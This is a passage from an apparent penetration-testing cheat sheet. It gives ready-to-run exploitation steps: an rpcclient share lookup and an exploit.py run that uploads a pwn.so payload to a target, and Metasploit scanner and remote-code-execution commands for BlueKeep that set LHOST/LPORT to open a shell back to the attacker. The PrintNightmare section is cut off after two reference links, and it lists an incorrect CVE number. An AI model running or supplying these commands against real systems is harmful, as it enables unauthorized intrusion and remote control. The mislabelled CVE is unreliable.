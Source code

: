 Get real share path on the target's filesystem:

```
$ rpcclient -U'%' -c'netsharegetinfo ShareName' 10.10.13.37
path:    /home/snovvcrash/sharename
```

Upload `pwn.so` to target and then run the exploit:

```
$ pip install virtualenv
$ virtualenv -p /usr/bin/python2.7
$ source venv/bin/activate.sh
$ pip install -r requirements.txt
$ . venv/bin/activate
$ ./exploit.py -t 10.10.13.37 -e pwn.so -s ShareName -r /home/snovvcrash/sharename/pwn.so -u anonymous -p ''
```




## BlueKeep

**CVE-2019-0708**

Check:

```
msf > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf > set RHOSTS file:rdp.txt
msf > set THREADS 25
msf > run
```

Exploit:

```
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf > set RHOSTS file:rdp.txt.txt
msf > set LHOST eth0
msf > set LPORT 1337
msf > run
```




## PrintNightmare

**CVE-2021-16751, CVE-2021-34527**

* [https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)
* [https://pentestlab.blog/2021/08/17/domain-escalation-printnightmare/](https://pentestlab.blog/2021/08/17/domain-escalation-printnightmare/)



### Check
